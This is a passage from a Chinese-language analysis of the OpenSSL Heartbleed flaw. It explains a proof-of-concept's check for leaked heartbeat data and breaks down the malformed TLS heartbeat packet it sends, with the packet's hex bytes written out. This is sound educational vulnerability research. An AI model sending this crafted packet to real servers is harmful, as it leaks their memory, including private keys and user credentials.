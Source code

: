 			        if typ == 24:
			            print 'Received heartbeat response:'
			            hexdump(pay)
			            if len(pay) > 3:
			                print 'WARNING: server returned more data than it should - server is vulnerable!'
			            else:
			                print 'Server processed malformed heartbeat, but did not return any extra data.'
			            return True
			
			        if typ == 21:
			            print 'Received alert:'
			            hexdump(pay)
			            print 'Server returned error, likely not vulnerable'
			            return False


**注：**这里说明一下为什么判断payload的长度大于3的话即为存在心脏出血漏洞？

&emsp;&emsp;这里我们需要分析一下心跳包的特征：

**TLS数据包格式**

|心跳包字段|长度|说明|
|------|---|---|
|ContentType|1byte|心跳包类型，IANA组织把type编号定义为24（0x18）|
|ProtocolVersion|2bytes|TLS的版本号，目前主要包括含有心跳扩展的TLS版本：TLSv1.0，TLSv1.1，TLSv1.2|
|length|2bytes|HeartbeatMessage的长度|
|HeartbeatMessageType|1byte|Heartbeat类型 01表示heartbeat_request 02表示heartbeat_response|
|payload_length|2bytes|payload长度|
|payload|payload_length个bytes|payload的具体内容|
|padding|\>=16bytes|padding填充，最少为16个字节|

这边我们看一下POC中构造的恶意心跳数据包：

	# TLSv1.1
	hb2 = h2bin('''
	18 03 02 00 03
	01 40 00
	''')
&emsp;&emsp;通过和表格中的数据包格式进行对照，我们可以知道\x18(心跳包类型)，\x03 \x02(TLS版本：TLSv1.1)，\x00 \x03(后面的HeartbeatMessage的长度，<font color=red>注意:这里的值就是**3**</font>)，\x01(Heartbeat类型 01表示heartbeat_request) , \x40 \x00(这里是希望获得的payload的长度：1024bytes)。

&emsp;&emsp;所以我们就可以理解POC代码中的判断逻辑：有心脏出血漏洞的一定是type=24 心跳包，构造的恶意padyload的padding填充为空，所以只要length>3即可。


## 5.&emsp;参考资料 ##

* [关于OpenSSL“心脏出血”漏洞的分析](https://zhuanlan.zhihu.com/p/19722263?columnSlug=drops "https://zhuanlan.zhihu.com/p/19722263?columnSlug=drops")
* [CVE-2014-0160 Heartbleed分析报告](http://www.freebuf.com/articles/web/31700.html "http://www.freebuf.com/articles/web/31700.html")
* [全面解析Heartbleed漏洞 别让心脏出血](http://soft.yesky.com/security/340/36922340.shtml "http://soft.yesky.com/security/340/36922340.shtml")
* [Heartbleed心脏出血漏洞原理分析](http://blog.csdn.net/yaofeino1/article/details/54428021 "http://blog.csdn.net/yaofeino1/article/details/54428021")


